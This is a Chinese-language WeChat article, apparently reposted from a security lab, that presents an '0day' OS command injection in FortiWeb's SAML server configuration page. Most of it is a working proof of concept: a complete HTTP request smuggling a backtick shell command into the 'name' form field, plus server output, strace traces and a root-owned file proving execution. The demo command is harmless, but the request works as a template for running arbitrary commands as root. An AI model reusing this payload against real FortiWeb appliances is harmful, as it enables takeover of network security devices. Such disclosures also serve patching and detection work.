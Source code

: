 ##  0day Fortinet FortiWeb OS 命令注入

[ 黑白之道 ](javascript:void\(0\);)

**黑白之道** ![]()

微信号 i77169

功能介绍 我们是网络世界的启明星，安全之路的垫脚石。

____

__

收录于话题

![](https://gitee.com/fuli009/images/raw/master/public/20210823075153.png)

> 文章来源：Khan安全攻防实验室

![](https://gitee.com/fuli009/images/raw/master/public/20210823075154.png)

  

![]()

  

        FortiWeb 管理界面（版本 6.3.11 及更早版本）中的操作系统命令注入漏洞可允许远程、经过身份验证的攻击者通过 SAML 服务器配置页面在系统上执行任意命令。

  

POC：  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /api/v2.0/user/remoteserver.saml HTTP/1.1Host: [redacted]Cookie: [redacted]User-Agent: [redacted]Accept: application/json, text/plain, */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateReferer: https://[redacted]/root/user/remote-user/saml-user/X-Csrftoken: 814940160Content-Type: multipart/form-data; boundary=---------------------------94351131111899571381631694412Content-Length: 3068Origin: https://[redacted]Dnt: 1Te: trailersConnection: close-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="q_type"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="name"`touch /tmp/vulnerable`-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="entityID"test-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="service-path"/saml.sso-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-lifetime"8-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-timeout"30-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-path"/SAML2/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-path"/SLO/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="flag"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing"disable-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing_val"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="metafile"; filename="test.xml"Content-Type: text/xml<?xml version="1.0"?><md:EntityDescriptor xmlns:md="urn:oasis:names:tc:SAML:2.0:metadata" validUntil="2021-06-12T16:54:31Z" cacheDuration="PT1623948871S" entityID="test"><md:IDPSSODescriptor WantAuthnRequestsSigned="false" protocolSupportEnumeration="urn:oasis:names:tc:SAML:2.0:protocol"><md:KeyDescriptor use="signing"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:KeyDescriptor use="encryption"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:NameIDFormat>urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified</md:NameIDFormat><md:SingleSignOnService Binding="urn:oasis:names:tc:SAML:2.0:bindings:HTTP-Redirect" Location="test"/></md:IDPSSODescriptor></md:EntityDescriptor>-----------------------------94351131111899571381631694412--HTTP/1.1 500 Internal Server ErrorDate: Thu, 10 Jun 2021 11:59:45 GMTCache-Control: no-cache, no-store, must-revalidatePragma: no-cacheSet-Cookie: [redacted]X-Frame-Options: SAMEORIGINX-XSS-Protection: 1; mode=blockContent-Security-Policy: frame-ancestors 'self'X-Content-Type-Options: nosniffContent-Length: 20Strict-Transport-Security: max-age=63072000Connection: closeContent-Type: application/json{"errcode": "-651"}

  

“touch”命令连接在 mkdir shell 命令中：

  

  *   *   *   * 

    
    
    [pid 12867] execve("/migadmin/cgi-bin/fwbcgi", ["/migadmin/cgi-bin/fwbcgi"], 0x55bb0395bf00 /* 42 vars */) = 0[pid 13934] execve("/bin/sh", ["sh", "-c", "mkdir /data/etc/saml/shibboleth/service_providers/`touch /tmp/vulnerable`"], 0x7fff56b1c608 /* 42 vars */) = 0[pid 13935] execve("/bin/touch", ["touch", "/tmp/vulnerable"], 0x55774aa30bf8 /* 44 vars */) = 0[pid 13936] execve("/bin/mkdir", ["mkdir", "/data/etc/saml/shibboleth/service_providers/"], 0x55774aa30be8 /* 44 vars */) = 0

  

在 FortiWeb 设备的本地命令行上看到“touch”命令的结果：

  

  *   *   * 

    
    
    /# ls -l /tmp/vulnerable-rw-r--r--    1 root     0                0 Jun 10 11:59 /tmp/vulnerable/#

侵权请私聊公众号删文

![](https://gitee.com/fuli009/images/raw/master/public/20210823075155.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210823075156.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210823075157.png)

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0day Fortinet FortiWeb OS 命令注入

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

